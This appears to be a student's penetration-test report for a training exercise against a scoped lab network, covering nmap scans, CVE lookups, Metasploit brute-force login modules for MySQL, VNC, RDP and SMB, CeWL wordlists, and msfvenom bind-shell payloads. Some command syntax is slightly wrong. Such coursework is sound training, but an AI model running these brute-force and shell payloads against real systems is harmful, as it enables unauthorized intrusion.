# INTERNAL NETWORK PENETRATION TEST

## For: VIRTUAL INFOSEC AFRICA

 

 ## COMPANY NAME: VIRTUAL INFOSEC AFRICA

 ### Submitted by: Student of Virtual Infosec Africa
 [Virtual Infosec Africa](https://virtualinfosecafrica.com)

.

# Table of Contents

* **Internal Network Penetration Testing Guidelines**
  * Scope

* **Host Discovery**
* **Service Discovery and Port Scanning**
* **Vulnerability Scanning**
* **Web-Based Attack Surfaces**
* **Generating Payloads**

# Internal Network Penetration Testing Guidelines

Internal network penetration testing involves evaluating the security of an organization's internal IT infrastructure. It's aim is to discover vulnerabilities within a trusted network, simulating what an attacker or a compromised system might exploit. Below are key guidelines to follow during an internal network penetration test:

###  Reconnaissance: (Information Gathering)
 1. **Active Reconnaissance**: This involves the use of scanning tools (eg. Nmap, ping, zenmap, arp-scan) to discover hosts, open ports and service running within the network. NB (We can also perform DNS bruteforcing using aiodnsbrute)
 2.  **Passive Reconnaissance**: This is where we analyze internal documentation, logs, and user directories for internal architecture insights. Packet sniffing is a method used in passive reconnaissance and the tool, wireshark is used for this activity.
   

### Vulnerability Scanning
Vulnerabilty scanning is the process used to identify and assess potential security weaknesses, flaws, or vulnerabilities in a computer system, network, or application. This process helps organizations detect vulnerabilities before they are exploited by attackers, allowing them to take preventive measures.

## Classification  of Vulnerability Scanning Based on Scope

1. **Network-Based Scanning**: 
    * Scans an organization's network infrastructure to find vulnerabilities in devices like routers, firewalls, switches and servers.
    * Detects weaknesses such as open ports, unpatched services, and insecure network configurations.

2. **Host-Based Scanning**:
    * Focusses on individual computers or servers.
    * It inspects th operating systems, and local configurations to identify vulnerabilities like unpatched software, improper configurations, or malware.
3. **Application-Based Scanning**:
    * Scans web applications or software vulnerabilities.
    * Identifies issues such as SQL injection, cross-site scripting(XSS), insecure authentication mechanisms, and more.
4. **Database Scanning**:
    * Targets vulnerabilities within database management systems(DBMS).
    * Scans for weak configurations, default accounts, unpatched software, and SQL injection vulnerabilities.
5. **Cloud-BAsed Scanning**:
    * Specifically designed for cloud environments.
    * Scans cloud assets, configurations, storage buckets, and virtual machines for potential security risks.

6. **IoT Scanning**:
    * Focusses on the Internet of Things(IoT) devices, which may have weak default credentials or outdated firmware.
    * Scans for misconfigurations, insecure protocols, and firmware vulnerabilities.

The **NIST Common Vulnerability Scoring System (CVSS)** is a standardized framework used in vulnerability scanning to assess the severity of security vulnerabilities .Developed by the National Institute of Standard and Technology(NIST) and maintained as part of the National Vulnerability Database(NVD), CVSS provides a numerical score (typically from 0 to 10) to help security professionals proritize remediation efforts based on the risk posed by a vulnerability.

Visit [MITRE Corporation CVE list](https://cve.mitre.org) for more information

## Scope

The scope of engagement comprises of the internal network: **10.10.10.0/24** and a domain name: https://virtualinfosecafrica.com/ 

# Host Discovery

* With the use of a tool like Nmap, we're able to describe what it means to do a host discovery and include screenshots of the commands we would use with nmap to perform a host discovery with explanations on the options we choose for the command.

Assuming 15 hosts are up, we can filter our output by using commands such us **grep**, **awk** and **cat** and can save them into a file using the **greater than (>)** command

Eg:
> **nmap -sn 10.10.10.0/24** | grep -i "Nmap scan report for" | awk ('print $5') >**Host_dicovery.txt** 

We can demonstrate a subdomain enumeration using a tool like **aiodnsbrute** with the domain provided in the scope.



# Service Discovery and Port Scanning

Service discovery and port scanning are essential steps in network security, administration, and troubleshooting. It is necessary because:

1. ### It Identifies Active Services and Open Ports

    * **Service discovery** helps in identifying what services are running on a network, such as web servers (HTTP/HTTPS), mail servers (SMTP), file transfer (FTP), and so on.
    * **Port scanning** is used to determine which ports are open and listening for incoming connections on a host. Since each service runs on specific ports (eg., HTTP on port 80), scanning reveals which services are active by checking the state of these ports.

2. ### Security Auditing and Vulnerability Assessment
3. ### Troubleshooting Network Issues
4. ### Network Inventory and Documentation
5. ### Detect Unauthorized Services or Malware

Basically, service dicovery and port scanning are necessary for understanding the structure and health of a network, preventing vulnerabilities, enhancing security, and ensuring efficient network operation.

Using Nmap to perform a service discovery.

> **nmap -sV 10.10.10.0/24 -oG service_discovery.gnmap**

 Taking note of the service versions, we can use resources like Expolitdb and [MITRE CVE](cve.mitre.org) to identify relevant vulnerabilities associated with the services indicated. 

| Name| Description | 
| --- | --- | 
| CVE-2021-41773 | A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.
| CVE-2021-26887 | 
An elevation of privilege vulnerability exists in Microsoft Windows when Folder redirection has been enabled via Group Policy. When folder redirection file server is co-located with Terminal server, an attacker who successfully exploited the vulnerability would be able to begin redirecting another user's personal data to a created folder.
 
To exploit the vulnerability, an attacker can create a new folder under the Folder Redirection root path and create a junction on a newly created User folder. When the new user logs in, Folder Redirection would start redirecting to the folder and copying personal data.
 
This elevation of privilege vulnerability can only be addressed by reconfiguring Folder Redirection with Offline files and restricting permissions, and NOT via a security update for affected Windows Servers. See the <strong>FAQ</strong> section of this CVE for configuration guidance.

|  CVE-2024-5775   | A vulnerability was found in SourceCodester Vehicle Management System 1.0 and classified as critical. Affected by this issue is some unknown functionality of the file updatebill.php. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-267458 is the identifier assigned to this vulnerability.
| CVE-2022-25246|      Axeda agent (All versions) and Axeda Desktop Server for Windows (All versions) uses hard-coded credentials for its UltraVNC installation. Successful exploitation of this vulnerability could allow a remote authenticated attacker to take full remote control of the host operating system.

# Vulnerability Scanning

Using my protocol specific file I created under service discovery, I scannned for vulnerabilities with the *Metasploit Auxilliary Module*

## Scanning for login vulnerabilities for the following services.

1. ### mysql:
steps:
> 1. msfconsole
>
> 2. search and use mysql_login
>
> 3. info
>
> 4. set USER_FILE userlist.txt
>
> 5. set PASS_FILE passlist.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**



2. ### vnc:
steps:
> 1. msfconsole
>
> 2. search and use vnc_login
>
> 3. info
>
> 4. set USER_FILE userlist1.txt
>
> 5. set PASS_FILE passlist1.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**

  Before setting the **user_file**, **pass_file** and **RHOSTS**

 After setting them.

3. ### rdp:
steps:
> 1. msfconsole
>
> 2. search and use rdp_login
>
> 3. info
>
> 7. **run**



4. ### smb:
steps:
> 1. msfconsole
>
> 2. search and use smb_login
>
> 3. info
>
> 4. set USER_FILE userlist2.txt
>
> 5. set PASS_FILE passlist2.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**



Assuming I had to develop my own custom wordlist, I can use the tool called **Cewl**.

syntax used:
> cewl -m5 -w passlist.txt -cv -o virtualinfosecafrica.com





# Web-Based Attack Surfaces

Eyewitness is a tool used to take screenshots of web applications, open RDP services, and open VNC servers, which helps in identifying and reporting vulnerabilities. It is especially helpful when performing reconnaissance and vulnerability assessments. Below is an example of the syntax for using EyeWitness:

> eyewitness --timeout 15 -f sites.txt



## Generating Payloads

I was able to generate payloads using a tool called **msfvenom**

To generate a payload that can trigger a **TCP bind shell** with **msfvenom**, assuming the host is 10.10.10.55 and runs on an Apache Tomcat web server(Java based), we use the **syntax command**:

> msfvenom -p java/shell/bind_tcp LPORT=9005 RHOSTS=10.10.10.55 -f war -o payload.war





To generate a payload that can execute **base64** with **msfvenom**, assuming the host is 10.10.10.55 and runs a Python server, we use the **syntax command**:

> msfvenom -p python/shell_bind_tcp  LPORT=9005 RHOSTS=10.10.10.55 -f python -o payload.py





    
  
  

 